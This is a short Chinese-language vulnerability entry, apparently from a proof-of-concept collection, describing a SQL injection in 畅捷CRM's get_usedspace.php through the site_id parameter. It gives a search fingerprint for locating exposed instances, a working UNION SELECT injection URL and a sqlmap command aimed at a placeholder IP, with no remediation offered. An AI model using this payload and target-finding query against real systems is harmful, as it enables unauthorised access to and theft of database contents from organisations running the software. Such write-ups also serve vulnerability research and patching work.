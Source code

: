 # 畅捷CRM get_usedspace.php SQL注入漏洞

## 漏洞描述

畅捷CRM get_usedspace.php存在SQL漏洞，通过漏洞可获取数据库敏感信息

## 漏洞影响

```
畅捷CRM
```

## 网络测绘

```
title="畅捷CRM"
```

## 漏洞复现

登录页面

![image-20220525145239822](images/202205251452933.png)

验证POC

```
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--
```

![image-20220525145324633](images/202205251453704.png)

使用Sqlmap验证漏洞

```
sqlmap -u "http://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id
```